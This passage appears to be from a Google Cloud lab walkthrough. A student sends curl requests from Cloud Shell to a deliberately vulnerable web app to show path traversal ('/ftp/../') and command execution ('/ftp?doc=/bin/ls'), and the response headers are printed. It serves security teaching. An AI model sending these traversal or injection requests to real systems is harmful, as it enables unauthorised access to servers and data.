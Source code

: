 Observe that path traversal works too.

```sh
student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ curl -Ii http://$PUBLIC_SVC_IP/ftp/../
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 03 May 2024 02:16:21 GMT
ETag: W/"ea4-18f3c3cff0d"
Content-Type: text/html; charset=UTF-8
Content-Length: 3748
Vary: Accept-Encoding
Date: Fri, 03 May 2024 02:25:53 GMT
Via: 1.1 google

student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ 
```



### Observe an RCE vulnerability

Remote Code Execution includes various UNIX and Windows command  injection scenarios allowing attackers to execute OS commands usually  restricted to privileged users. The following shows a simple `ls` command execution passed in.

```sh
student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ curl -Ii http://$PUBLIC_SVC_IP/ftp?doc=/bin/ls
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: text/html; charset=utf-8
Content-Length: 11081
Vary: Accept-Encoding
Date: Fri, 03 May 2024 02:26:31 GMT
Via: 1.1 google

student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ 
```

Remove the curl flags to observe the full output.



### Observe a well-known scanner's access
